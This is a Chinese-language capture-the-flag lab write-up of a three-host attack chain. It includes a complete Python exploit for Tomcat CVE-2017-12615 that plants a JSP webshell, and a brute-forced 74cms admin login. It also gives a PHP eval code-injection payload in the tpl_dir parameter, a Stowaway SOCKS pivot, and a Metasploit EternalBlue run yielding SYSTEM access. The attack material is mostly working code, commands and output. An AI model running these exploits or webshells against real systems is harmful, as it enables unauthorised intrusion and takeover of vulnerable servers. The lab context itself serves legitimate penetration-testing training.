# Lab2


# lab2

# 端口扫描

```python
(base) ┌──(root㉿kali)-[/home/princess/Desktop/web/fscan]
└─# ./fscan -h 192.168.10.10/24        

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] CIDR范围: 192.168.10.0-192.168.10.255
[*] 已生成IP范围: 192.168.10.0 - 192.168.10.255
[*] 已解析CIDR 192.168.10.10/24 -> IP范围 192.168.10.0-192.168.10.255
[*] 最终有效主机数量: 256
[+] 目标 192.168.10.10   存活 (ICMP)
[+] 目标 192.168.10.20   存活 (ICMP)
[+] 目标 192.168.10.233  存活 (ICMP)
[+] ICMP存活主机数量: 3
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.10.10:808
[+] 端口开放 192.168.10.10:3306
[+] 端口开放 192.168.10.233:22
[+] 端口开放 192.168.10.10:139
[+] 端口开放 192.168.10.20:135
[+] 端口开放 192.168.10.10:135
[+] 端口开放 192.168.10.10:7680
[+] 端口开放 192.168.10.20:445
[+] 端口开放 192.168.10.10:445
[+] 端口开放 192.168.10.20:139
[+] 端口开放 192.168.10.20:8009
[+] 端口开放 192.168.10.233:8080
[+] 端口开放 192.168.10.20:8080
[+] 存活端口数量: 13
[*] 开始漏洞扫描...
[!] 扫描错误 192.168.10.10:445 - read tcp 192.168.23.145:39286->192.168.10.10:445: read: connection reset by peer
[!] 扫描错误 192.168.10.10:3306 - Error 1130: Host '192.168.122.130' is not allowed to connect to this MySQL server
[*] NetInfo
[*] 192.168.10.10
   [->] DESKTOP-JFB57A8
   [->] 192.168.10.10
[!] 扫描错误 192.168.10.20:135 - [-] 解码主机信息失败: encoding/hex: odd length hex string
[!] 扫描错误 192.168.10.20:445 - 无法确定目标是否存在漏洞
[!] 扫描错误 192.168.10.10:7680 - Get "https://192.168.10.10:7680": EOF
[*] 网站标题 http://192.168.10.20:8080 状态码:200 长度:11432  标题:Apache Tomcat/8.5.19
[*] 网站标题 https://192.168.10.233:8080 状态码:404 长度:19     标题:无标题
[!] 扫描错误 192.168.10.10:139 - netbios error
[*] NetBios 192.168.10.20   CYBERSTRIKELAB\CYBERWEB       
[!] 扫描错误 192.168.10.20:8009 - Get "https://192.168.10.20:8009": EOF
[*] 网站标题 http://192.168.10.10:808  状态码:200 长度:20287  标题:骑士PHP高端人才系统(www.74cms.com)
[!] 扫描错误 192.168.10.233:22 - 扫描总时间超时: context deadline exceeded
[+] [发现漏洞] 目标: http://192.168.10.20:8080
  漏洞类型: poc-yaml-iis-put-getshell
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://192.168.10.20:8080
  漏洞类型: poc-yaml-tomcat-cve-2017-12615-rce
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] 扫描已完成: 13/13
[*] 扫描结束,耗时: 1m17.461074188s
```

# tomcat-cve-2017-12615-rce

直接利用就行，使用脚本上传一个木马

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import argparse
import random
import string
import sys
from typing import Tuple
from urllib.parse import urlparse, urlunparse

import requests


def gen_password(length: int = 10) -> str:
    charset = string.ascii_letters + string.digits
    return "".join(random.choice(charset) for _ in range(length))


def normalize_base_url(raw_url: str, port: str) -> str:
    raw_url = raw_url.strip()
    if not raw_url.startswith(("http://", "https://")):
        raw_url = "http://" + raw_url

    parsed = urlparse(raw_url)
    scheme = parsed.scheme
    netloc = parsed.netloc
    path = parsed.path.rstrip("/")

    if parsed.port is None:
        netloc = f"{parsed.hostname}:{port}"

    return urlunparse((scheme, netloc, path, "", "", "")).rstrip("/")


def build_antsword_jsp(password: str) -> str:
    return f"""<%@ page import="java.util.Base64" %>
<%!
    class U extends ClassLoader {{
        U(ClassLoader c) {{
            super(c);
        }}
        public Class g(byte []b) {{
            return super.defineClass(b, 0, b.length);
        }}
    }}
%>
<%
    if (request.getParameter("{password}") != null) {{
        new U(this.getClass().getClassLoader()).g(
            Base64.getDecoder().decode(request.getParameter("{password}"))
        ).newInstance().equals(pageContext);
    }}
%>"""


def upload_shell(base_url: str, shell_name: str, shell_content: str) -> Tuple[bool, int, str]:
    upload_url = f"{base_url}/{shell_name}/"
    headers = {
        "User-Agent": (
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) "
            "Gecko/20100101 Firefox/93.0"
        ),
        "Content-Type": "application/octet-stream",
    }

    try:
        response = requests.put(upload_url, headers=headers, data=shell_content, timeout=8, verify=False)
    except Exception as exc:
        return False, -1, f"请求失败: {exc}"

    if response.status_code in (201, 204):
        return True, response.status_code, "上传成功"

    body_preview = response.text[:120].replace("\n", " ")
    return False, response.status_code, f"上传失败, 响应片段: {body_preview}"


def verify_shell(shell_url: str) -> Tuple[bool, int]:
    try:
        r = requests.get(shell_url, timeout=8, verify=False)
        return r.status_code == 200, r.status_code
    except Exception:
        return False, -1


def main() -> None:
    parser = argparse.ArgumentParser(
        usage="python3 %(prog)s -u URL [-p PORT] [-f FILE] [-k PASSWORD]",
        description="Tomcat CVE-2017-12615 上传蚁剑 JSP 木马",
    )
    parser.add_argument("-u", "--url", required=True, help="目标地址，例如 http://192.168.10.20")
    parser.add_argument("-p", "--port", default="8080", help="目标端口，默认 8080")
    parser.add_argument("-f", "--file", default="shell.jsp", help="上传后的文件名，默认 shell.jsp")
    parser.add_argument("-k", "--password", help="蚁剑连接密码(参数名)，默认随机生成")
    args = parser.parse_args()

    requests.packages.urllib3.disable_warnings()  # nosec B323

    password = args.password if args.password else gen_password()
    shell_name = args.file.lstrip("/")
    base_url = normalize_base_url(args.url, args.port)
    shell_url = f"{base_url}/{shell_name}"

    shell_content = build_antsword_jsp(password)

    print(f"[*] 目标: {base_url}")
    print(f"[*] 上传: {shell_url}")
    ok, status, message = upload_shell(base_url, shell_name, shell_content)
    print(f"[*] 状态码: {status}")
    print(f"[*] 结果: {message}")

    if not ok:
        sys.exit(1)

    alive, verify_status = verify_shell(shell_url)
    print(f"[*] 访问校验状态码: {verify_status}")
    if not alive:
        print("[!] 文件已上传，但直接 GET 未返回 200，不影响蚁剑 POST 连接，可直接尝试。")

    print("\n[+] 蚁剑连接信息")
    print(f"    URL: {shell_url}")
    print("    类型: JSP")
    print(f"    密码: {password}")
    print("    编码: UTF-8")


if __name__ == "__main__":
    main()
```

使用：

```python
python .\exp.py -u http://192.168.10.20 -p 8080 -f shell.jsp
```





# flag2



flag：go-flag{2a1AygwfTuccnNJY}

# 192.168.10.10:808 

在url后面加上：/index.php?m\=Admin 访问后台，先随便测试输入一个账号，回显管理员账号不存在，试试admin 回显账号或者密码错误，猜测可能是存在 admin 用户，然后爆破一下密码即可，admin123456 这个账号有个 302 跳转，那明显就是这个密码



进入后台找到工具\=\>风格模板\=\>可用模板，抓包


点击没反应的话就是下面这个地址

http://192.168.10.10:808/index.php?m=admin&c=tpl&a=set&tpl_dir=default



修改tpl\_dir的值为 如下，然后发送

```python
','a',eval($_POST['cmd']),'
```



```python
GET /index.php?m=admin&c=tpl&a=set&tpl_dir=','a',eval($_POST['cmd']),' HTTP/1.1
Host: 192.168.10.10:808
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://192.168.10.10:808/index.php?m=admin&c=tpl&a=set&tpl_dir=default
Cookie: PHPSESSID=4vq0a90efp76bvh0j2d7vf4th6; think_language=zh-CN; think_template=default; callback_type=login
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

然后访问/Application/Home/Conf/config.php

```python
http://192.168.10.10:808/Application/Home/Conf/config.php
```

然后就能拿到 shell 了





# flag1



flag：go-flag{MP9E4xXhya0TlzVF}

# 内网信息收集

在 tomcat 这台机器发现有两张网卡，很明显存在内网的



上传 fscan 扫描一下内网

```python
C:\Program Files\Apache Software Foundation\Tomcat 8.5> fscan.exe -h 192.168.20.20/24
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] CIDR范围: 192.168.20.0-192.168.20.255
[*] 已生成IP范围: 192.168.20.0 - 192.168.20.255
[*] 已解析CIDR 192.168.20.20/24 -> IP范围 192.168.20.0-192.168.20.255
[*] 最终有效主机数量: 256
[+] 目标 192.168.20.20   存活 (ICMP)
[+] 目标 192.168.20.30   存活 (ICMP)
[+] ICMP存活主机数量: 2
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.20.20:8080
[+] 端口开放 192.168.20.20:8009
[+] 端口开放 192.168.20.30:445
[+] 端口开放 192.168.20.30:139
[+] 端口开放 192.168.20.20:445
[+] 端口开放 192.168.20.20:139
[+] 端口开放 192.168.20.30:135
[+] 端口开放 192.168.20.20:135
[+] 端口开放 192.168.20.30:88
[+] 存活端口数量: 9
[*] 开始漏洞扫描...
[!] 扫描错误 192.168.20.20:445 - 无法确定目标是否存在漏洞
[!] 扫描错误 192.168.20.20:135 - [-] 解码主机信息失败: encoding/hex: odd length hex string
[*] NetInfo
[*] 192.168.20.30
   [->] WIN-7NRTJO59O7N
   [->] 192.168.20.30
[!] 扫描错误 192.168.20.30:139 - netbios error
[!] 扫描错误 192.168.20.20:8009 - Get "https://192.168.20.20:8009": EOF
[*] 网站标题 http://192.168.20.20:8080 状态码:200 长度:11432  标题:Apache Tomcat/8.5.19
[*] NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[+] MS17-010 192.168.20.30    (Windows Server 2008 R2 Standard 7600)
[!] 扫描错误 192.168.20.30:88 - Get "http://192.168.20.30:88": read tcp 192.168.20.20:49644->192.168.20.30:88: wsarecv: An existing connection was forcibly closed by the remote host.
[+] [发现漏洞] 目标: http://192.168.20.20:8080
  漏洞类型: poc-yaml-iis-put-getshell
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://192.168.20.20:8080
  漏洞类型: poc-yaml-tomcat-cve-2017-12615-rce
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] 扫描已完成: 9/9
[*] 扫描结束,耗时: 5.5800756s
```

发现内网靶机，总结一下信息

|IP|网络区域|资产定位|开放端口|识别信息|扫描命中|备注|
| ---------------| ---------------------------| -------------------------------------| ---------------------------| ----------------------------------------------| -----------------------------------------------------| -------------------------------|
|192.168.20.20|DMZ（外网区，第二张网卡）|对外 Web 入口/潜在跳板机|8080, 8009, 445, 139, 135|Apache Tomcat/8.5.19；Windows Server 2012 R2|tomcat-cve-2017-12615-rce、iis-put-getshell(待复核)|适合作为进入内网的 pivot 起点|
|192.168.20.30|内网|内网 Windows 主机（高价值横向目标）|445, 139, 135, 88|Windows Server 2008 R2 Standard 7600|MS17-010|明确内网目标，风险高|

# 搭建二层代理

先把 stowaway 的 windows_x64_agent.exe 上传上去，然后先启动 admin 端

```python
windows_x64_admin.exe -l 9999
```

然后再启动 agent 端

```python
windows_x64_agent.exe -c 172.16.233.2:9999 --cs gbk
```

在 stowaway\_admin 交互里执行，搭建 socks 代理

```python
use 0
socks 1080 
```

然后在攻击机（kali）走代理做内网探测，利用 MS17-010

```python
# /etc/proxychains4.conf 追加一行
socks5 172.16.233.2 1080
```

测试一下能够访问到内网

```python
 proxychains4 curl http://192.168.20.20:8080
```



启动 msf

```python
proxychains4 msfconsole 
```

执行下面的 payload

```python
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.20.30
set PAYLOAD windows/x64/meterpreter/bind_tcp
set RHOST 192.168.20.30
set LPORT 4445
run
```



# flag3

```python
meterpreter > getuid
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Server username: NT AUTHORITY\SYSTEM
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
meterpreter > cat C:\\flag.txt
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
go-flag{uhzy7lknuXsJtB3Z}[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
